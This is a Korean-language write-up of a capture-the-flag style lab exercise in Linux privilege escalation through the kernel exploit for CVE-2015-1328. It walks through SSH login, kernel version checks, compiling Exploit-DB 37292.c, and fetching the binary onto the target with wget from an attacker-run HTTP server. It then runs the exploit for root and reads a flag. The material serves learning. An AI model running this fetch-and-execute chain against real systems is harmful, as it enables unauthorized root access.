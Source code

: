# Linux Privilege Escalation: Kernel Exploits
> 커널 익스플로잇을 이용하여 권한 상승에 관한 실습을 했습니다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.42.60
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **커널 버전**: `Linux 3.13.0-24-generic`
- **실습 일자**: 2025-04-18

---

## 2. 실습 과정

### 2.1 SSH 접속
- 타겟 머신에 SSH로 접근 -> karen 계정과 주어진 비밀번호로 로그인 하였다.

```bash
ssh karen@10.10.42.60
```

![SSH 연결 및 로그인](./screenshots/ssh_connect.png)

### 2.2 커널 버전 확인

- 커널 버전 확인→ uname -a 명령어로 커널 버전을 확인하고, 3.13.0-24-generic 버전이라는 것을 확인하였다.

```bash
uname -a
```
![uname -a 출력](./screenshots/uname.png)

- 커널 버전이 CVE-2015-1328에 취약하다는 사실을 구글링을 통해 확인하였다.

- Exploit-DB에서 해당 취약점에 대한 37292.c 소스코드를 다운로드하였다.
[Exploit-DB - CVE-2015-1328](https://www.exploit-db.com/exploits/37292)

### 2.3 Kali에서 SSH 서버 시작

```bash
systemctl start ssh
```
![SSH 서비스 시작](./screenshots/start_ssh.png)


### 2.4 Exploit 다운로드 및 전송 (Windows → Kali) 
- Windows → Kali로 소스 전송: Windows PowerShell의 `scp`를 통해 Kali로 소스 파일을 전송하였다. (실제 IP는 모자이크)

```bash powershell
scp D:/exploit_file/37292.c root@<MyRoot-ip>:/root
```
![SCP 전송](./screenshots/window_scp.png)


### 2.5 Exploit 정적 컴파일  
- `gcc 37292.c -o exploit -static` 명령어를 사용하여 정적으로 컴파일 하였다.

```bash
gcc 37292.c -o exploit -static
```
![정적 컴파일](./screenshots/compile.png)

### 2.6 타겟 머신으로 Exploit 전송
- Kali에서 `python3 -m http.server 8000`으로 HTTP 서버를 열고, 타겟 머신에서 `wget`으로 exploit을 /tmp에 다운로드하였다.

```bash
python3 -m http.server 8000
wget http://<kali-ip>:8000/exploit -O /tmp/exploit
```
![wget 전송](./screenshots/http_server_wget.png)

### 2.7 실행 및 루트 획득

- `chmod +x exploit` 후 `./exploit`을 실행하여 루트 권한을 획득하였다. 후에 `find / -name flag1.txt`로 플래그 파일 경로를 찾고, `cat /home/matt/flag1.txt`로 내용 확인하였다.

```bash
chmod +x exploit
./exploit
id
find / -name flag1.txt
cat /home/matt/flag1.txt
```
![익스플로잇 실행 및 플래그 획득](./screenshots/exploit_flag.png)

---

## 느낀 점

이번 실습을 통해 커널 익스플로잇을 활용한 권한 상승 과정을 직접 따라 해보며, 이론으로만 알고 있던 **Kernel Exploit의 실제 작동 방식과 흐름을 체험**할 수 있었다.
특히, 커널 버전 확인부터 취약점 검색, 익스플로잇 소스 컴파일 및 전송, 실행을 통해 루트 권한을 획득하는 일련의 과정을 경험하면서, **실제 시스템 해킹 흐름을 이해하고 정리하는 데 큰 도움이 되었다**.

